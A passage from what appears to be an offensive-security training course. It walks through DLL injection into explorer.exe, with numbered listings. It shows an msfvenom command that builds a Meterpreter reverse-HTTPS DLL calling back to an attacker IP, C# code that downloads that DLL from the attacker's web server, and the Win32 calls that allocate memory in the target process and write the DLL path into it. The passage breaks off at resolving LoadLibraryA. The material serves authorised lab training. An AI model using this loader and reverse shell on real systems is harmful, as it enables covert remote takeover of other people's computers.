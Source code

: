 ```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f dll -o /var/www/html/met.dll
```

> Listing 18 - Generating Meterpreter shellcode

To implement the DLL injection technique, we are going to create a new C# .NET Standard Console app that will fetch our DLL from the attacker's web server. We'll then write the DLL to disk, since _LoadLibrary_ only accepts files present on disk. This code is shown below:

```
using System.Net;
...

String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
String dllName = dir + "\\met.dll";

WebClient wc = new WebClient();
wc.DownloadFile("http://192.168.119.120/met.dll", dllName);
```

> Listing 19 - Downloading a DLL and writing it to disk

Next, we'll resolve the process ID of **explorer.exe** and pass it to _OpenProcess_:

```
Process[] expProc = Process.GetProcessesByName("explorer");
int pid = expProc[0].Id;

IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
```

> Listing 20 - OpenProcess called on explorer.exe

For the next step, we'll use _VirtualAllocEx_ to allocate memory in the remote process that is readable and writable, then use _WriteProcessMemory_ to copy the path and name of the DLL into it:

```
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

IntPtr outSize;
Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
```

> Listing 21 - Allocating and copying the name of the DLL into explorer.exe

Next, we'll resolve the memory address of _LoadLibraryA_ inside the remote process. Luckily, most native Windows DLLs are allocated at the same base address across all processes, so the address of _LoadLibraryA_ in our current process will be the same as in the remote.

To locate its address, we'll use the combination of _GetModuleHandle_ and _GetProcAddress_ to resolve it and add the associated DllImport statements:

```
IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
```
